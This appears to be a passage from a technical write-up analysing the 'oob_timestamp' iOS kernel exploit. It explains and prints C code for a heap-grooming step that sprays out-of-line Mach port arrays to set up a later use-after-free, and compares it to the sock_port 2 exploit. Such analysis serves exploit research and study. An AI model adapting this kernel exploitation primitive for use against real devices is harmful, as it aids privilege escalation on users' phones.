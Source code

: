 The oob_timestamp comment contains following.

> Ideally we'd allocate more than one array of out-of-line ports. However, these arrays are allocated with `kalloc()` which sets the `KMA_ATOMIC` flag, meaning they cannot be only partially freed. Each additional array of out-of-line ports would bump up the minimum free size, which means we'd need to allocate even more `kfree()` buffer memory.

By adding `1` to `(7 * pagesize) / sizeof(uint64_t)` to bump `ool_port_count` above 7 pages, the code creates 8-page OOL port descriptor array.

Similar to OOL port spray in sock port 2 exploit, `send_ool_port` takes advantage of fact that message is **sent (`MACH_SEND_MSG`)** but **not received**; this keeps the message in kernel space until destination port is destroyed.

However, because `target_port` is set to `MACH_PORT_NULL`, the user-mode task port is not translated to kernel-mode task port address, so the final message contents stored in kernel are filled with NULL.

The allocated OOL port array is also expected to be UAF'd later.

```cpp
int send_ool_ports(mach_port_t where, mach_port_t target_port, int count, int disposition) {
    kern_return_t ret;
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = where;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    ret = mach_msg(&msg->hdr, MACH_SEND_MSG|MACH_MSG_OPTION_NONE, msg->hdr.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    
    free(msg);
    free(ports);
    
    if (ret) {
        printf("[-] Failed to send OOL message: 0x%x (%s)\n", ret, mach_error_string(ret));
        return KERN_FAILURE;
    }
    
    return 0;
}

...

// allocate ool buffer which we'll also UAF
    mach_port_t ool_message_port = POP_PORT();
    int ool_ports_count = (7 * pagesize) / sizeof(uint64_t) + 1;
```
